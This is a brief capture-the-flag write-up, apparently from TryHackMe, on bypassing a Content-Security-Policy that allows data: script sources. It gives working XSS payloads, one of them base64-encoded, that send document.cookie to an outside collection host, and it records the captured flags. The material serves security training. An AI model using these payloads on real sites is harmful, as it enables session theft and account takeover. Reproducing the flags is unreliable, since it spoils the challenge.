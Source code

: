 ```
GET `/flag=THM%7BTh4t_W4s_Pr3tty_3asy%7D`

200 0.0s 4 minutes ago

then decode url with cyberchef flag=THM{Th4t_W4s_Pr3tty_3asy}
```


*THM{Th4t_W4s_Pr3tty_3asy}*

Flag for attack-2  

```
┌──(kali㉿kali)-[~/nappy]
└─$ curl http://34.243.75.161:3002/ -I
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Security-Policy: default-src *; style-src 'self'; script-src data:
Content-Type: text/html; charset=utf-8
Content-Length: 390
ETag: W/"186-Py/FKQRGfs98M/Yc8k680Qm1cF0"
Date: Thu, 12 Jan 2023 01:24:59 GMT
Connection: keep-alive

enter text:

<script src="data:application/javascript,fetch(`https://witty.free.beeceptor.com/${document.cookie}`)"></script>

or

<script src="data:application/javascript,eval(document.location='https://witty.free.beeceptor.com/'.concat(document.cookie))"></script>

or

┌──(kali㉿kali)-[~/nappy]
└─$ echo -n 'fetch(`https://witty.free.beeceptor.com/${document.cookie}`)' | base64
ZmV0Y2goYGh0dHBzOi8vd2l0dHkuZnJlZS5iZWVjZXB0b3IuY29tLyR7ZG9jdW1lbnQuY29va2ll
fWAp


<script src="data:;base64,ZmV0Y2goYGh0dHBzOi8vd2l0dHkuZnJlZS5iZWVjZXB0b3IuY29tLyR7ZG9jdW1lbnQuY29va2ll
fWAp"></script>

:)


GET `/flag=THM%7BUs1ng_data:_1snt_Any_S4fer%7D`

200 0.0s a few seconds ago

flag=THM{Us1ng_data:_1snt_Any_S4fer}

```
